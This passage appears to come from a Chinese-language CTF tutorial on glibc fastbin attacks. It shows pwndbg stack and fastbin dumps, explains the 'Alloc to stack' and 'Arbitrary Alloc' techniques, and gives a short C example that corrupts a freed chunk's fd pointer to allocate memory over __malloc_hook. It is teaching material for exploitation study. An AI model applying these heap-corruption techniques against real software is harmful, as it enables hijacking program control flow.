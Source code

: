 ```s
   25 }
─────────────────────────────────────────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────────────────────────────────────────
00:0000│ rsp      0x7fffffffdc50 —▸ 0x602010 —▸ 0x7fffffffdc60 —▸ 0x7fffffffdc8e ◂— 0x400650572d
01:0008│          0x7fffffffdc58 —▸ 0x7fffffffdc70 —▸ 0x400650 (__libc_csu_init) ◂— push   r15
02:0010│          0x7fffffffdc60 —▸ 0x7fffffffdc8e ◂— 0x400650572d
03:0018│          0x7fffffffdc68 ◂— 0x21 /* '!' */
04:0020│ rax rdx  0x7fffffffdc70 —▸ 0x400650 (__libc_csu_init) ◂— push   r15
05:0028│          0x7fffffffdc78 —▸ 0x4004e0 (_start) ◂— xor    ebp, ebp
06:0030│          0x7fffffffdc80 —▸ 0x7fffffffdd70 ◂— 0x1
07:0038│          0x7fffffffdc88 ◂— 0x572d050368fbbe00
───────────────────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────────────────────────────
 ► f 0           400632 main+92
   f 1     7ffff7a2d830 __libc_start_main+240
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> fast
fastbins
0x20: 0x400650 (__libc_csu_init) ◂— and    byte ptr [rax], al /* ' ' */
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
pwndbg> p $rbp-0x38
$4 = (void *) 0x7fffffffdc58
pwndbg> x/x 0x7fffffffdc58
0x7fffffffdc58: 0x00007fffffffdc70
pwndbg>
```

把 fastbin chunk 分配到栈中，从而控制返回地址等关键数据。要实现这一点需要劫持 fastbin 中 chunk 的 fd 域，把它指到栈上，同时需要栈上存在有满足条件的 size 值

## Arbitrary Alloc

Arbitrary Alloc 其实与 Alloc to stack 是完全相同的，唯一的区别是分配的目标不再是栈中。 事实上只要满足目标地址存在合法的 size 域，就可以可以把 chunk 分配到任意的可写内存中，比如 bss、heap、data、stack 等。

### 示例3

```c++
// 使用字节错位来实现直接分配 fastbin 到_malloc_hook 的位置，相当于覆盖_malloc_hook 来控制程序流程。
int main(void)
{
    void *chunk1;
    void *chunk_a;

    chunk1=malloc(0x60);

    free(chunk1);

    *(long long *)chunk1=0x7ffff7dd1af5-0x8;
    malloc(0x60);
    chunk_a=malloc(0x60);
    return 0;
}
```
